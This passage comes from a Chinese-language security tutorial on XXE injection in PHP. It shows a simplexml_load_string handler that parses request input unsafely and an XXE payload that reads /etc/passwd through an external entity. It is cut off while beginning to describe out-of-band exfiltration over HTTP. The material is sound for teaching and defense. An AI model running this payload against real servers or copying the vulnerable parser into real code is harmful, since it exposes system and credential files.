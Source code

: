 ```php

print_r($dom);
```
simplexml_load_string.php
```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);

echo $xml->name;
```

# XXE漏洞利用
## 有回显型
之前讲外部实体时就已经演示过了，利用外部实体，获取文件内容  
然后利用输出就能够任意文件读取
```xml
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
	<name>&xxe;</name>
</root>
```
`echo $xml->name;`就会将解析到的name值，也就是`/etc/passwd`的内容输出来
![](简析XXE/2.png) 

## 无回显
当利用不将对应的值输出来时，该如何进行攻击呢
```php
// echo $xml->name;
```
这时可以借助http协议，将获取到文件内容发送到远程服务器上  
从而获取文件内容
  